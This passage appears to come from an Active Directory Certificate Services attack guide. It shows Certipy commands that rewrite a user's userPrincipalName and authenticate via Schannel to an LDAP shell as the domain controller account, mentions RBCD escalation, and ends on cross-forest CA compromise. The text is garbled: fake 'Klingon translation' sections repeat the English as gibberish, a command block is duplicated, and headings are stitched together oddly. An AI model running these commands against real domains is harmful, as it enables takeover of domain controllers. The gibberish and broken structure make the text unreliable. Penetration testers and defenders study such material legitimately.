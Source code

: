 `Jane`'s `userPrincipalName` jatlhqa'pu' 'e' vItlhutlh.
```bash
certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn 'Jane@corp.local'
```
To authenticate via Schannel, Certipy's `-ldap-shell` option is utilized, indicating authentication success as `u:CORP\DC$`.

---

**Klingon Translation:**

Schannel jatlh Certipy's `-ldap-shell` qutlh, `u:CORP\DC$` jatlh authentication success jatlh.
```bash
certipy auth -pfx dc.pfx -dc-ip 172.16.126.128 -ldap-shell
```
### Domain Escalation

#### LDAP Shell

Through the LDAP shell, commands such as `set_rbcd` enable Resource-Based Constrained Delegation (RBCD) attacks, potentially compromising the domain controller.

---

### QIn Hoch

#### LDAP Shell

DaH jatlh LDAP shell, 'ejDI' 'e' vItlhutlhlu'pu' Resource-Based Constrained Delegation (RBCD) attacks, potentially compromising the domain controller.

---
```bash
certipy auth -pfx dc.pfx -dc-ip 172.16.126.128 -ldap-shell
```
This vulnerability also extends to any user account lacking a `userPrincipalName` or where it does not match the `sAMAccountName`, with the default `Administrator@corp.local` being a prime target due to its elevated LDAP privileges and the absence of a `userPrincipalName` by default.

## Compromising Forests with Certificates Explained in Passive Voice

### Breaking of Forest Trusts by Compromised CAs

The configuration for **cross-forest enrollment** is made relatively straightforward. The **root CA certificate** from the resource forest is **published to the account forests** by administrators, and the **enterprise CA** certificates from the resource forest are **added to the `NTAuthCertificates` and AIA containers in each account forest**. To clarify, this arrangement grants the **CA in the resource forest complete control** over all other forests for which it manages PKI. Should this CA be **compromised by attackers**, certificates for all users in both the resource and account forests could be **forged by them**, thereby breaking the security boundary of the forest.

### Enrollment Privileges Granted to Foreign Principals

In multi-forest environments, caution is required concerning Enterprise CAs that **publish certificate templates** which allow **Authenticated Users or foreign principals** (users/groups external to the forest to which the Enterprise CA belongs) **enrollment and edit rights**.\
